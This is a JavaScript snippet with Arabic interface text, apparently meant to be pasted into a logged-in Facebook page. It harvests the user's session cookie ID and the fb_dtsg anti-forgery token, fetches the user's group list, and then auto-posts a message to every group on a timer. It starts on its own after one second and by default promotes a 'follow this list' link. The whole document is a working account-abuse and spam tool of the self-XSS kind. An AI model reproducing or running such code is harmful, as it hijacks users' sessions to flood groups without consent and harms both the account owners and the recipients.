 var grouppost = "<div><span class='img sp_43rped sx_e3ea36'></span><a style='position:absolute;size:3px;padding-left:3px;font-weight:bold;font-family:Tahoma;font-size:11px;color:#FF0000;'>النشر في كل الجروبات</a></div></br>";


grouppost += "<div><textarea id='txtFloodMsg' placeholder='Write your message here and click on post' style='color:white;padding-top:5px;width:493px;height:85px;font-family:tahoma;font-size:13px;background-color:rgba(255,255,255,0.1);'></textarea></div>";
grouppost += "<div><br><span class='img sp_er534k sx_74b85a'></span><a style='position:absolute;font-family:Arial;size:3px;padding-left:3px;font-size:11px;color:rgb(128, 128, 128);'>برنامج العالمى</a></span><button style='margin-left:437px' class='_42ft _4jy0 _11b _4jy3 _4jy1 selected' onclick='autopostingfunc(this);' >Post</button><div style='color:gray;'>للتواصل <A style='color:#3B5998;' href='https://www.facebook.com/codes.el3almy' target='_blank'>اضغط هنا</A></br>للتبادل</A><A style='color:#3B5998;' href='https://www.facebook.com/676404555739659/' target='_blank'> اضغط هنا </A></A></div>";
var Popupset = document.createElement("div");
Popupset.setAttribute("style", "min-height:50px;width:500px;position:fixed;top:100px;box-shadow: 0px 4px 10px rgba(24, 144, 255, 0.63);position:fixed;left:50%;margin-left:-273px;text-align:left;border-radius:10px;padding:5px;z-index:999999;border:5px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:White");
Popupset.innerHTML = grouppost;
document.body.appendChild(Popupset);
jx = {
    getHTTPObject: function () {
        var A = false;
        if (typeof ActiveXObject != "undefined") try {
            A = new ActiveXObject("Msxml2.XMLHTTP")
        } catch (C) {
            try {
                A = new ActiveXObject("Microsoft.XMLHTTP")
            } catch (B) {
                A = false
            }
        } else if (window.XMLHttpRequest) try {
            A = new XMLHttpRequest
        } catch (C) {
            A = false
        }
        return A
    },
    load: function (url, callback, format, method, opt) {
        var http = this.init();
        if (!http || !url) return;
        if (http.overrideMimeType) http.overrideMimeType("text/xml");
        if (!method) method = "GET";
        if (!format) format = "text";
        if (!opt) opt = {};
        format = format.toLowerCase();
        method = method.toUpperCase();
        var now = "uid=" + (new Date).getTime();
        url += url.indexOf("?") + 1 ? "&" : "?";
        url += now;
        var parameters = null;
        if (method == "POST") {
            var parts = url.split("?");
            url = parts[0];
            parameters = parts[1]
        }
        http.open(method, url, true);
        var ths = this;
        if (opt.handler) http.onreadystatechange = function () {
            opt.handler(http)
        };
        else http.onreadystatechange = function () {
            if (http.readyState == 4)
                if (http.status == 200) {
                    var result = "";
                    if (http.responseText) result = http.responseText;
                    if (format.charAt(0) == "j") {
                        result = result.replace(/[\n\r]/g, "");
                        result = eval("(" + result + ")")
                    } else if (format.charAt(0) == "x") result = http.responseXML;
                    if (callback) callback(result)
                } else {
                    if (opt.loadingIndicator) document.getElementsByTagName("body")[0].removeChild(opt.loadingIndicator);
                    if (opt.loading) document.getElementById(opt.loading).style.display = "none";
                    if (error) error(http.status)
                }
        };
        http.send(parameters)
    },
    bind: function (A) {
        var C = {
            "url": "",
            "onSuccess": false,
            "onError": false,
            "format": "text",
            "method": "GET",
            "update": "",
            "loading": "",
            "loadingIndicator": ""
        };
        for (var B in C)
            if (A[B]) C[B] = A[B];
        if (!C.url) return;
        var D = false;
        if (C.loadingIndicator) {
            D = document.createElement("div");
            D.setAttribute("style", "position:absolute;top:0px;left:0px;");
            D.setAttribute("class", "loading-indicator");
            D.innerHTML = C.loadingIndicator;
            document.getElementsByTagName("body")[0].appendChild(D);
            this.opt.loadingIndicator = D
        }
        if (C.loading) document.getElementById(C.loading).style.display = "block";
        this.load(C.url, function (E) {
            if (C.onSuccess) C.onSuccess(E);
            if (C.update) document.getElementById(C.update).innerHTML = E;
            if (D) document.getElementsByTagName("body")[0].removeChild(D);
            if (C.loading) document.getElementById(C.loading).style.display = "none"
        }, C.format, C.method, C)
    },
    init: function () {
        return this.getHTTPObject()
    }
};
var j = 0;
var k = 0;
var suc = 0;
var msg = "Follow this list please... https://www.facebook.com/lists/233821286796906";
var arr = new Array;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
 
function autopostingfunc(sender) {
    if (document.getElementById("txtFloodMsg").value != "") msg = document.getElementById("txtFloodMsg").value;
    jx.load(window.location.protocol + "//www.facebook.com/ajax/typeahead/search/bootstrap.php?__a=1&filter[0]=group&viewer=" + user_id + "&token=v7&lazy=0&__user=" + user_id, function (a) {
        var b = a;
        var c = b.substring(b.indexOf("{"));
        var d = JSON.parse(c);
        d = d.payload.entries;
        for (var e = 0; e < d.length; e++) arr.push(d[e].uid);
        sender.parentNode.innerHTML = "Please wait...";
        postitok()
    })
}
var a = document.body.innerHTML;
var dts = document.getElementsByName("fb_dtsg")[0].value;
var composerid = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
 
function postitok() {
    pst = "fb_dtsg=" + dts + "&xhpc_composerid=" + composerid + "&xhpc_targetid=" + arr[suc] + "&xhpc_context=home&xhpc_fbx=1&xhpc_message_text=" + encodeURIComponent(msg) + "&xhpc_message=" + encodeURIComponent(msg) + "&UIPrivacyWidget[0]=40&privacy_data[value]=40&privacy_data[friends]=0&privacy_data[list_anon]=0&privacy_data[list_x_anon]=0&=Share&nctr[_mod]=pagelet_group_composer";
    with(newx = new XMLHttpRequest) open("POST", "/ajax/updatestatus.php?__a=1"), send(pst);
    suc++;
    if (suc > arr.length) {
        alert("Auto Posting Completed. Now Refresh your Homepage.");
        suc = 0
    } else setTimeout("postitok()", 3E4 / arr.length)
}
setTimeout("autopostingfunc()", 1E3);
